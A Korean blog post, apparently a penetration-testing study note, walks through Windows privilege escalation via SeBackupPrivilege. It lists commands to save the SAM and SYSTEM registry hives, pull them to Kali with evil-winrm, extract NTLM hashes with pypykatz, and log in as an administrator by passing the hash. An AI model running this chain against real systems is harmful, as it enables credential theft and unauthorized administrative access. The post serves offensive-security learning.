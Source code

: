```yaml
---
layout: post
title: 백업 권한을 이용한 윈도우 권한 상승
subtitle: SeBackupPrivilege가 있을 때 권한 상승 방법
category: knowledge
thumbnail-img: /assets/img/knowledge/backuppriv.png
tags: [windows, SeBackupPrivilege]
author: Hong
---
```

이번 포스팅에서는 아래 이미지와 같이 SeBackupPrivilege가 활성화되어 있는 경우 권한 상승하는 방법에 대해 써보겠다.

![SeBackupPrivilege](/assets/img/knowledge/backuppriv.png)

참고로 위의 권한은 `whoami /priv나 /all 명령어로 확인 할 수 있다.`
# sam, system 파일을 가져오기

이 수법의 특징은 모든 파일을 읽을 수 있다는 것.

다음과 같은 명령어를 입력한다.
```powershell
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
템프 디렉토리에 sam파일과 system파일을 저장한다.

kali에 위 파일들을 가져오기 위해 evil-winrm같은 툴로 다운로드 한다.
```powershell
cd Temp
download sam
download system
```
# NTLM 해쉬 추출
파일들을 옮겼으면 해쉬를 추출하기 위해 pypykatz를 이용한다.

이렇게 하는 이유는 윈도우에서 mimikatz를 관리자 권한으로 실행 할 수 없기 때문.

`pypykatz registry --sam sam system`

실행하면 아래와 같이 유저와 그에따른 해쉬값이 추출되어 나타난다.
![NTLMhash](/assets/img/knowledge/NTLMhash.png)
위의 해쉬값을 이용하여 관리자 권한을 가진 유저로 로그인한다.

`evil-winrm -i 192.168.x.x -u raj -H <해쉬>`

이렇게해서 백업 권한을 가진 경우 민감한 파일을 복사해 kali로 옮긴 후 해쉬를 추출해보았다.